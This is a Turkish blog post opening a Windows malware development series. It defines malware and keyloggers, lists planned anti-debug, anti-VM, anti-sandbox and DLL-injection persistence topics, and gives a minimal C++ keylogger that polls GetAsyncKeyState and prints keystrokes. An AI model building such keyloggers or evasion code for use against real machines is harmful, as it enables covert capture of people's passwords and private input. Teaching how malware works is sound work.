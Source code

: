 ```yaml
---
layout: post
title: Windows Malware Development - 1
excerpt: "Basitin basiti Windows Malware Geliştirme 1 - Keylogger"
categories: [code]
comments: true
---
```

<center><img src="http://2.bp.blogspot.com/_u7otytX-Cwg/TPZVJEQ6WwI/AAAAAAAAANw/F5PRrPFVVH4/s1600/malicious+softwares.jpg">
Herkese selam. Türkiye'de Webhacking gibi gerektiği değeri görmeyen alanlardan bir tanesi olan, Zararlı Yazılım geliştirme olayından bahsedeceğim. Diğer değer görülmeyen konulardan bahsetmek gerekirse, Lowlevel ve Cryptography içeren konular. Seri'e başlamadan önce Sanal Makine kurup, içerisine Visual Studio veya bir tane C++ IDE kurun, Shellcode serilerinde ise MASM editör'e ihtiyacımız olabilir.

Seriler de her konudan bir örnek vermeye çalışacağım. İlk serimizden örnek vermek gerekirse;
- Keylogger
- Anti Dbg (IsDebuggerPresent)
- Anti Virtual Machine (Driver file check)
- Anti Sandbox
- Persistence (DLL Injection)

## Malware?

Türkçesi Zararlı Yazılım olarak telafuz edilen ve sizin yapmasını istemediğiniz her yazılıma Malware denir. Klavye girişlerini kaydetmesini Keylogger, uzaktan bağlantı alması Backdoor veya Remote Administration Tool şeklinde telafuz edilir. Bunların hepsinin birleştiği kategori Malware'dir. 

Siber silah ve APT yazılımları da Malware'in kategorisine girmektedir. Daha çok kurum, kuruluş veya yüksek değer içeren yerlere sızmak için kullanılan ve içerisinde en az bir adet tespit edilmemiş bir zafiyeti sömüren yazılımlara denir. 

## Keylogger?

Sizin klavye'den girdiğiniz değerleri bir dosyaya kaydeden veya bir hedefe gönderen yazılımlara denir. Windows API'de keylogger geliştirmek için bir çok yöntem/fonksiyon mevcuttur. Bu seri de GetAsyncKeyState ile yapacağız. Bu tavsiye ettiğim bir fonksiyon değil, sebebine gelirsek iç içe döngü kullandığımız için çok fazla CPU kullanıyor ve Antivirus'ler çabuk tespit edebiliyor. 
		
```cpp
#include <iostream>
#include <Windows.h>
#include <string>
//fonksiyon prototipi
int Keylogger();

int main() {
	Keylogger();
}

int Keylogger() {

	int m;
	while (1) {
		for (m = 0; m < 256; m++) {
			if (GetAsyncKeyState(m) == -32767) {
				//-32767 == 0x8000 ve 0x0001
				printf("%c",m);
			}
		}
		
	}
}
```